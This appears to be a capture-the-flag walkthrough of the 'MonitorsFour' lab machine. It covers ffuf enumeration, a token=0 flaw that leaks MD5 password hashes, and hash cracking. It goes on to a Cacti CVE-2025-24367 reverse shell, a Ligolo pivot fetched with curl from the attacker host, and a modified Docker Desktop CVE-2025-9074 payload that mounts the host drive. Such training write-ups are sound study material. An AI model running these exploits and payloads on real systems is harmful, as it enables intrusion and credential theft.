





# MonitorsFour
Difficulty: Easy
Platerform: Windows

## Discovery & Enumeration
Nmap scan reveals only a HTTP port.
On this website, login is pretty much all we can do.




Using FFUF:
```bash
ffuf -c -w common.txt -u "http://monitorsfour.htb/FUZZ"
```

We discover the following sub-directory :
- /.env
- /contact
- /user

**`.env:`**
The .env file contains MariaDB credentials, but they do not work in our case. This appears to be a decoy.

**`/contact:`**
The `/contact` page displays PHP include():



However, this is not useful for exploitation.


**`/user:`**

The `/user` endpoint returns the following error:
```json
{"error":"Missing token parameter"}
```

This suggests the endpoint expects a `token` parameter:

## User endpoint exploitation


```
http://monitorsfour.htb/user?token=something
```
So, here I tried various commion values, such as: 
- admin and `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4iLCJpc0FkbWluIjp0cnVlfQ.` (admin)
- true
- none and `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJyb2xlIjoiYWRtaW4ifQ.` (none).

Eventually, accessing:
```
http://monitorsfour.htb/user?token=0
```
returns a list of valid user and their passwords hashes.



**Exctracted Hashes**

```
admin:56b32eb43e6f15395f6c46c1c9e1cd36
mwatson:69196959c16b26ef00b77d82cf6eb169
janderson:2a22dcf99190c322d974c8df5ba3256b
dthompson:8d4a7e7fd08555133e056d9aacb1e519
```

Crack the hashes using John:
```bash
john --wordlist=rockyou.txt hashes.txt --format=raw-md5
```

Recovered credentials:
```
admin:wonderful1
```

## Admin Panel:
Using the cracked credentials, we can log in to the admin panel:


However, the page does not provide any useful information.

## Virtual Host Enumeration

In parallel, we enumerate virtual hosts:

```bash
ffuf -c -w subdomains-top1million-5000.txt -u "http://FUZZ.monitorsfour.htb"

```

Result:
```
cacti [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1062ms]
```

Add the domain to `/etc/hosts`:
```
<ip> cacti.monitorsfour.htb
```


Navigating to the site reveals a Cacti login page:


Trying `admin:wonderful1` fails.
However, using the admin name **marcus** works:
```
marcus:wonderful1
```

## Initial Foothold (Cacti Exploitation)

Search for cacti CVE:
- **CVE-2025-22604** exists but is complex to exploit.
- **CVE-2025-24367** is easier.

PoC: https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.

Start a listener:
```bash
nc -lnvp <PORT>
```

Run the exploit:
```bash
python3 exploit.py -u marcus -p wonderful1 -i <YOUR_IP> -l <PORT> -url http://cacti.monitorsfour.htb
```

Get the reverse shell, get the user flag.

## Privilege Escalation (Root)
Go back to `http://monitorsfour.htb/admin/changelog`.
A key hint is present:
> *"Migrated MonitorsFour infrastructure to Windows and Docker Desktop 4.44.2".*




### Docker Desktop Exploitation

Searching for vulnerabilities in Docker Desktop 4.44.2 reveals **CVE-2025-9074**.
Every PoC requires python, which is not available on the target machine. We will pivot using **Ligolo-ng**.

**Upload ligolo agent to target machine**
Start a python server on your machine:
```bash
python -m http.server 8000
```

Curl from remote machine:
```
curl <YOUR_IP>:8000/agent_linux_amd64 -o agent
```

**Pivoting with Ligolo**
Start Ligolo:
```bash
ligolo-ng --selfcert
```

On target machine:
```bash
./agent --connect <YOUR_IP>:11601 --ingnore-cert
```

In Ligolo console:
```bash
session
start
```
According to the CVE, Docker expose its API by default at `192.168.65.7:2375`.

Add route:
```
sudo ip route add 192.168.65.7/32 dev ligolo
```

Verify access:
```bash
curl http://192.168.65.7:2375/version
```

## Root exploitation

Use the following script:
```
https://github.com/j3r1ch0123/CVE-2025-9074/blob/main/exploit.py.
```

Modify the payload from:
```
payload = {
        "Image": "alpine",
        "Cmd": ["sh", "-c", cmd],
        "HostConfig": {
            "Binds": ["/mnt/host/c:/host_root"]
        }
    }
```

To: 

```
payload = {
	"Image": "alpine",
        "Cmd": ["sh", "-c", cmd],
        "HostConfig": {
	    "Privileged": True,
            "Binds": ["/mnt/host/c:/host_root"],
	    "NetworkMode": "none"
        },
	"WorkingDir": "/host_root"
    }
```

(See [exploit.py](exploit.py))

Run:
```bash
python3 exploit.py -u 192.168.65.7:2375 -c "cat Users/Administrator/Desktop/root.txt"
```
(or make a reverse shell).

**Root flag obtained.**